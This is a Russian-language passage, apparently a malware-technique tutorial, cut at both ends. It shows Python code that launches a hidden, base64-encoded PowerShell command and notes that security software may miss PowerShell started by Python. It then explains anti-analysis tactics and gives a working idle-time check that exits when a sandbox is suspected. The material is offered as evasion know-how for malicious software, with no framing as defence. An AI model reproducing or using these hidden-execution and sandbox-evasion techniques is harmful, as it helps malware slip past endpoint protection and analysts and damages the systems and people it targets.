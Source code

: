 ```python
    # -EncodedCommand принимает base64-строку
    # -NoP (NoProfile) и -NonI (NonInteractive) часто используются для скрытия окна
    # -WindowStyle Hidden полностью скрывает окно PowerShell
    full_powershell_execution = f'powershell.exe -NoProfile -NonInteractive -WindowStyle Hidden -EncodedCommand {ps_command_b64}'
    
    print(f"Выполняемая команда: {full_powershell_execution}")
    
    # Запуск
    # subprocess.call(full_powershell_execution, shell=True) 
    # Для Windows, чтобы не мелькало окно консоли Python:
    # startupinfo = subprocess.STARTUPINFO()
    # startupinfo.dwFlags |= subprocess.STARTF_USESHOWWINDOW
    # startupinfo.wShowWindow = subprocess.SW_HIDE
    # subprocess.call(full_powershell_execution, startupinfo=startupinfo)

    print("Команда PowerShell (предположительно) отправлена на выполнение.")
```
    Система защиты может не обратить внимания на запуск `powershell.exe` самим Python, если Python используется для легитимных скриптов администрирования.

**Часть 3: Обнаружение Анализирующей Среды (Anti-Analysis)**

Вредоносное ПО часто пытается определить, не запущено ли оно в изолированной среде (песочнице, sandbox) или на виртуальной машине, используемой аналитиками. Если такая среда обнаружена, вредонос может:
*   Завершить свою работу.
*   Имитировать безобидное поведение.
*   Попытаться "сломать" анализирующую среду.

1.  **Проверка на наличие признаков виртуализации/песочницы:**
    *   Имена файлов, пути, драйверы, специфичные для VM (VMWare, VirtualBox).
    *   MAC-адреса сетевых адаптеров.
    *   Значения в реестре.
    *   Низкое разрешение экрана, малый объем ОЗУ или диска.
    *   Отсутствие активности пользователя (движение мыши, нажатия клавиш).

    *   **Пример: Проверка времени бездействия пользователя (Windows)**
        Песочницы часто не имитируют реальную пользовательскую активность.
```python
        import ctypes
        import time

        class LASTINPUTINFO(ctypes.Structure):
            _fields_ = [('cbSize', ctypes.c_uint),
                        ('dwTime', ctypes.c_uint)]

        def get_idle_duration_windows():
            """Возвращает время в секундах с момента последнего ввода пользователя."""
            lastInputInfo = LASTINPUTINFO()
            lastInputInfo.cbSize = ctypes.sizeof(LASTINPUTINFO)
            if ctypes.windll.user32.GetLastInputInfo(ctypes.byref(lastInputInfo)):
                millis = ctypes.windll.kernel32.GetTickCount() - lastInputInfo.dwTime
                return millis / 1000.0
            return 0 # В случае ошибки

        # Проверяем, если система бездействует более 5 минут (300 секунд)
        # Это может указывать на автоматизированную среду анализа
        idle_time = get_idle_duration_windows()
        print(f"Время бездействия пользователя: {idle_time:.2f} секунд")

        MAX_IDLE_SECONDS = 300 
        if idle_time > MAX_IDLE_SECONDS:
            print(f"Обнаружено длительное бездействие ({idle_time:.2f}c > {MAX_IDLE_SECONDS}c). Возможно, это песочница. Завершение работы.")
```